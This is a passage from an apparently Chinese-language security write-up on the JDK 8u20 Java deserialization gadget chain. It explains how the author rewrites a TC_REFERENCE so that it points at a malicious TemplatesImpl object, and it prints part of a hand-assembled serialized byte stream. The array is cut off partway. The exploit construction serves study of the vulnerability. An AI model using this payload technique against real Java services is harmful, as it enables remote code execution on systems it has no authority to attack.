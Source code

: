 ```java
HashMap map = new HashMap();
map.put(zeroHashCodeStr, templates); 
```

但在jdk8u20中，pwntester是这样构造的

```java
HashMap map = new HashMap();
map.put("f5a5a608", "f5a5a608");
```

初看时很奇怪，这条链这样也能触发吗？经过实际的构造后理解了作者的用意。这条链在触发中确实需要这个map的值为templates对象，但是如果直接设成templates，由于这个templates已经在HashSet中put过一次，因此会在序列化数据中留下大量的TC\_REFERENCE引用，还会出现多次引用等情况，导致构造时很乱。但是像作者这样设置成和key相同的值时可以正确触发吗？其实是不能的，但是由于在put时设置为键和值相同的值，序列化数据中值被序列化时不会直接存储，而是存储成一个TC\_REFERENCE，指向key，然后作者修改了这个引用，修改为指向之前hashSet在put时生成templates对象，从而避免了大量的TC\_REFERENCE修改。因此作者选择在初始化第二个类的时候才放入恶意类到field中。最终生成的数据，以及对引用的修改如下，跟原作者略有不同。

```java
         Object[]  ser =new Object[]{
            STREAM_MAGIC,
            STREAM_VERSION,

             //linkedHashset
            TC_OBJECT,
            TC_CLASSDESC,
             LinkedHashSet.class.getName(),
             -2851667679971038690L,//serID
             (byte)SC_SERIALIZABLE,//classDescFlags
             (short)0,
             TC_ENDBLOCKDATA,

             TC_CLASSDESC,
             "java.util.HashSet",-5024744406713321676L,
             (byte)(SC_SERIALIZABLE|SC_WRITE_METHOD),
             (short)0,//fieldCount

             TC_ENDBLOCKDATA,
             TC_NULL,

             //hashSet readObject
             TC_BLOCKDATA,
             (byte) 12,
             (short)0,

             (short)16,

             (short)16192,(short)0,(short)0,
             (short)2,

             //first
             templates,

            //second
             TC_OBJECT,
             TC_PROXYCLASSDESC,
             1,
             Templates.class.getName(),
             TC_ENDBLOCKDATA,
             TC_CLASSDESC,
             Proxy.class.getName(),
             -2222568056686623797L,
             SC_SERIALIZABLE,
             (short)2,

             //fake
             (byte)'L',"fake", TC_STRING,"Ljava/beans/beancontext/BeanContextSupport;",
```